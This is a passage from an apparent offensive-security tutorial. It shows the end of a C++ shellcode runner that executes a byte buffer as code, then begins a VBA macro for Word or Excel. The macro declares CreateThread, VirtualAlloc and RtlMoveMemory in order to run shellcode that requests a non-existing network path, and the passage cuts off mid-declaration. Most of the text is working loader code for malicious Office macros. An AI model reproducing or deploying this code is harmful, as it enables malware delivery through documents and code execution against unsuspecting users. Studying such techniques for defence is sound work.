 ```cpp

    if (!ret) {
        fprintf(stderr, "%s", "Error Occured");
        return EXIT_FAILURE;
    }

    ((void(*)(void))shellcode)();

    VirtualProtect (shellcode, strlen(shellcode), oldProtect, &oldProtect);

    return EXIT_SUCCESS;
}
```

[https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)

## Shellcode Inside Macros

Here’s the above shellcode applied inside a Word/Excel macro. You can use the same code inside a VB6 application.

```basic
' Author : Osanda Malith Jayathissa (@OsandaMalith)
' Title: Shellcode to request a non-existing network path
' Website: https://osandamalith
' Shellcode : https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html
' This is a word/excel macro. This can be used in vb6 applications as well

#If Vba7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _ 
        ByVal lpStartAddress As LongPtr, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _ 
        lpThreadId As Long) As LongPtr


    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As LongPtr 

    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination  As LongPtr, _
        ByRef Source As Any, _
        ByVal Length As Long) As LongPtr

#Else
    Private Declare Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _
        ByVal lpStartAddress As Long, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _
        lpThreadId As Long) As Long

    Private Declare Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As Long
```